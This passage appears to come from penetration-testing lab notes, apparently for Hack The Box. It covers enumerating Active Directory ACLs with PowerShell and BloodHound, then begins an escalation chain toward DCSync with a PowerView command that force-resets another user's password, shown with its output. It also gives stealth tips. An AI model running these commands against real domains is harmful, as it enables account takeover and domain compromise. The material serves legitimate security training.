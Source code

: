  ```powershell
  Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * | ?{$_.rightsGuid -eq $guid} | fl Name,DisplayName
  ```
- Recursively enumerate: If you control user A, check what A controls, and so on.

### PowerShell (No PowerView)
- List all users:
  ```powershell
  Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
  ```
- For each user, check ACLs:
  ```powershell
  foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {
    get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}
  }
  ```

### BloodHound (Graphical, Fastest for Paths)
- Collect data with SharpHound, upload to BloodHound.
- Set your user as the start node, check "Outbound Control Rights" and "Transitive Object Control".
- Use pre-built queries: "Shortest Paths to High Value Targets", "Users with DCSync Rights", etc.
- Edge types to know: `ForceChangePassword`, `AddMember`, `GenericWrite`, `GenericAll`, `GetChangesAll`/`GetChanges`.

### Troubleshooting & OpSec
- Use `-Verbose` for feedback.
- Targeted enumeration is stealthier than querying everything.
- Monitor for Event ID 5136 (object modified), group membership changes, SPN modifications.

---

## ACL Abuse Tactics

Abusing ACLs in Active Directory is a powerful way to escalate privileges, move laterally, and ultimately compromise a domain. Below is a practical, stepwise example based on a real-world attack chain, with explanations and command outputs for each step. This is the kind of chain you might see in Hack The Box, CTFs, or real internal assessments.

### Scenario Recap
- **Initial foothold:** You control the user `wley` (NTLMv2 hash captured with Responder, cracked with Hashcat).
- **Goal:** Full domain compromise by obtaining DCSync rights (control of `adunn`).

### Step 1: Force Password Reset (wley → damundsen)
**Why:** If you have ForceChangePassword rights, you can reset another user's password without knowing the old one.
```powershell
$SecPassword = ConvertTo-SecureString 'wley_password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
**Output:**
```
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```
- **Result:** You now control `damundsen`.
